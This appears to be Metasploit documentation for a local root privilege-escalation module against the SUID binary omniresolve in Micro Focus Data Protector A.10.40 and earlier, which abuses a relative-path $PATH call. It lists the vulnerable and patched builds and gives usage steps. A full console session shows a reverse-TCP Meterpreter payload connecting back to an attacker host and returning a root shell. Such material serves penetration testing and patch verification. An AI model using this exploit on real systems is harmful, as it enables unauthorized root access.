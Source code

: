 ## Description

  This module exploits the trusted $PATH environment
  variable of the SUID binary `omniresolve` in
  Micro Focus (HPE) Data Protector A.10.40 and prior.

  The `omniresolve` executable calls the `oracleasm` binary using
  a relative path and the trusted $PATH, which allows an attacker
  to execute a custom binary with `root` privileges.


## Vulnerable Application

  This module has been successfully tested on:

  * HPE Data Protector A.09.07: OMNIRESOLVE, internal build 110
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 118 on CentOS Linux release 7.6.1810 (Core)

  The vulnerability has been patched in:
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 125


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/omniresolve_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SUID_PATH**

  Path to `omniresolve` executable (default: `/opt/omni/lbin/omniresolve`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenario

### DP 10.40 build 118 on CentOS Linux release 7.6.1810 (Core)

  ```
  msf5 > use exploit/linux/local/omniresolve_suid_priv_esc
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > check
  [+] The target is vulnerable.
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/komniresolve_suid_priv_esc) > set lhost 192.168.0.113
  lhost => 192.168.0.113
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > run
  
  [*] Started reverse TCP handler on 192.168.0.113:4444 
  [*] Sending stage (3021284 bytes) to 192.168.0.107
  [*] Meterpreter session 2 opened (192.168.0.113:4444 -> 192.168.0.107:54510) at 2019-10-01 13:19:45 -0400
  [+] Deleted /tmp/oracleasm
  [+] Deleted /tmp/gprjmiMGOr
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 192.168.0.107
  OS           : CentOS 7.6.1810 (Linux 3.10.0-957.21.2.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```